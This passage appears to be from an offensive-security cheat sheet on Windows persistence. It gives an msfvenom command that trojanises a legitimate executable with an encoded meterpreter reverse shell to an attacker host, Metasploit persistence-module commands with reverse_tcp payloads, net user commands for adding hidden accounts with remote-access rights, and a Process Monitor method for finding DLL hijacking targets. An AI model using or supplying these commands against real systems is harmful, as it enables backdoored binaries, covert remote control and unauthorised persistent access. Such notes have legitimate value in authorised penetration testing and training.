 #### Create payload manually with msfvenom

> Implanting a "backdoor" into a programm with msfvenom and a reverse connect shell. This allows us to replace a service binary with a still functioning one that ALSO triggers a backconnect to the attacker machine.

```bash
msfvenom -a x86 --platform windows -x program2modify.exe -k -p windows/meterpreter/reverse_tcp lhost=<attackerIP> lport=<attackerPort> -e x86/shikata_ga_nai -i 15 -b "\x00" -f exe -o outputFile.exe
```

-> This option is helpful when replacing a windows binary with set autorecovery option, if we simply replace the service exe with only our payload the interface to windows service is missing and the operating system tries to restart the servicebinary as it is non-responsive to the default communication interface of windows services!

#### Other metasploit option

```bash
meterpreter> use exploit/windows/local/persistence
meterpreter> set startup system # switch to system privileges
meterpreter> set payload windows/meterpreter/reverse_tcp
```

```bash
meterpreter> use exploit/windows/local/persistence_service
meterpreter> set session 1
meterpreter> set lport 6543
meterpreter> exploit
# start your handler on 6543 and on reboot a new session should connect back
```

### Adding new users

> Add new users with a password only we know and that isn't changed by other people

```powershell
net user <username> <password> /add # adds new LOCAL user on the machine
net localgroup "<groupname>" <username> /add
``` 

Add the user also to `RDP` or `telnet` or `ssh` groups!

### DLL hijacking

> Abuse the loadorder of libraries and replace them with malicious files, for further information or mitigation check `dll` loadorder [here](https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1)
> New [source](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)

To find programs with this vulnerability we can use `processmonitor` of the `sysinternals` suite:

Filter for a specific serviceBinary to check for:
- `Process Name | is | <serviceBinary> | Include`
- `Result | is | NAME NOT FOUND | Include`
